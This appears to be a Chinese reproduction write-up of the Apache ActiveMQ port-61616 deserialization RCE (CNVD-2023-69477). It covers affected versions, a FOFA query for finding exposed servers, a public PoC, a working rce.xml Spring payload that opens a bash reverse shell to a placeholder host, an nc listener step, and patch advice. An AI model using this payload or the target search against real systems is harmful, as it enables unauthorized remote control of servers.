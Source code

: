 
# Apache ActiveMQ RCE漏洞复现（CNVD-2023-69477）

### 0x01 产品简介

  [ActiveMQ](https://so.csdn.net/so/search?q=ActiveMQ&spm=1001.2101.3001.7020)是一个开源的消息代理和集成模式服务器，它支持Java消息服务(JMS) API。它是Apache Software Foundation下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信。

### 0x02 漏洞概述

 Apache ActiveMQ 中存在远程代码执行漏洞，Apache ActiveMQ在默认安装下开放了61616服务端口，而该端口并没有对传入数据进行适当的过滤，从而使攻击者能够构造恶意数据以实现远程代码执行。

### 0x03 影响范围

Apache ActiveMQ < 5.18.3

Apache ActiveMQ < 5.17.6

Apache ActiveMQ < 5.16.7

Apache ActiveMQ < 5.15.16 

### 0x04 复现环境

FOFA：app="APACHE-ActiveMQ" && port="61616"

![b1d19830b3eb42439cf5a379fdb8f821.png](assets/1698896344-a60ed524e71d9d8b6386cefd6307d3c0.png)

### 0x05 漏洞复现

PoC地址：[https://github.com/trganda/ActiveMQ-RCE](https://github.com/trganda/ActiveMQ-RCE "https://github.com/trganda/ActiveMQ-RCE")

把项目Get到本地，导入IDEA中运行

![74854985a16d47dfae882dd50decf702.png](assets/1698896344-754c63dfa808a0b1e179883c8ef8d7db.png)

 直接运行会发现报错：java: 警告: 源发行版 11 需要目标发行版 11

PS:这种一般是你idea的 配置文件iml 与 项目中 配置的jdk版本是不一致导致的

![6cbc9d691fe548ccbca9e68eb61b210d.png](assets/1698896344-df9cf1ffbe0f75f4b2ba39e24e800086.png)

这里需要安装jdk11，配置项目

![3a5ae44b65144c05bed9c8d823556339.png](assets/1698896344-1ed8523c71408467a21e57ac9cf5632a.png)

 **漏洞利用**

修改Main.java以下两处

![f48ef75660ff44cb9caa860d0ee83b35.png](assets/1698896344-3c6a9bd34c170bde0f05592ed7bb8c6b.png)

**反弹shell** 

将rce.xml，上传至vps

```cobol
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/your-ip/6666 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
```

利用python开启http服务 

![79b958ad02784db9a00e76e8ee75a551.png](assets/1698896344-04047623af38bfd37a5df8e8833a3ace.png)

nc开启监听

![7d5fea03fec84a4b84b45b84922c4465.png](assets/1698896344-2f54dfe81d4a03e50e97f5c13c562390.png)

运行Main.java

![499c87a5b2c54c4997bf538ca9a717cf.png](assets/1698896344-c6a44a03c23e11bf05d0e26266c0e7d4.png)

成功反弹shell

![2618ec354d534345bbf22d0d8b813d8b.png](assets/1698896344-3955620b4068a2f0bf4e6820fdba4ed9.png)

### ![2adaf923474647acbfcde701749e153f.png](assets/1698896344-c86b60159ad981760d558468359e6df2.png)

### 0x06 修复建议 

**临时缓解方案**

通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。

**升级修复方案**

目前官方已通过限制反序列化类只能为Throwable的子类的方式来修复此漏洞。建议受影响用户可以更新到：

Apache ActiveMQ >= 5.18.3

Apache ActiveMQ >= 5.17.6

Apache ActiveMQ >= 5.16.7

Apache ActiveMQ >= 5.15.16

https://github.com/apache/activemq/tags
